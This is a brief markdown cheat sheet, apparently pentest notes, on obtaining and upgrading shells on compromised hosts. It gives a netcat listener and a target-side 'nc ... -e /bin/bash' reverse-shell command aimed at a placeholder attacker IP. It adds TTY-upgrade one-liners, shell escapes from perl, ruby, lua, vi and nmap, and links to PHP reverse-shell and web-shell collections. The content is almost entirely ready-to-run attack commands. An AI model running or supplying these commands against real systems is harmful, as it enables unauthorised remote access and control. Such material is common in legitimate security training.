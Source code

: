 # Shell

**Reverse shells** are when the target is forced to execute code that connects back to your computer.

**Bind shells** are when the code executed on the target is used to start a listener attached to a shell directly on the target.

## Reverse Shell example:

On the attacking machine:
```
sudo nc -lvnp 443
```

On the target:
```
nc <LOCAL-IP> <PORT> -e /bin/bash
```

## Spawning a Shell


### Spawning a TTY Shell
```
python -c 'import pty; pty.spawn("/bin/sh")'
python3 -c 'import pty;pty.spawn("/bin/bash")'

export TERM=xterm

CTRL+Z; stty raw -echo; fg
```

### rlwrap
```
rlwrap nc -lvnp <port>

CTRL+Z; stty raw -echo; fg
```

## Shell Spawning
https://netsec.ws/?p=337
```
python -c 'import pty; pty.spawn("/bin/sh")'

echo os.system('/bin/bash')

/bin/sh -i

perl —e 'exec "/bin/sh";'

perl: exec "/bin/sh";

ruby: exec "/bin/sh"

lua: os.execute('/bin/sh')

(From within IRB)

exec "/bin/sh"

(From within vi)

:!bash

(From within vi)

:set shell=/bin/bash:shell

(From within nmap)

!sh
```

## Reverse Shell
[pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell)


## Web Shell
[Arrexel phpbash](https://github.com/Arrexel/phpbash)

```
/usr/share/webshells
```

[Daniel Miessler webshells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells)

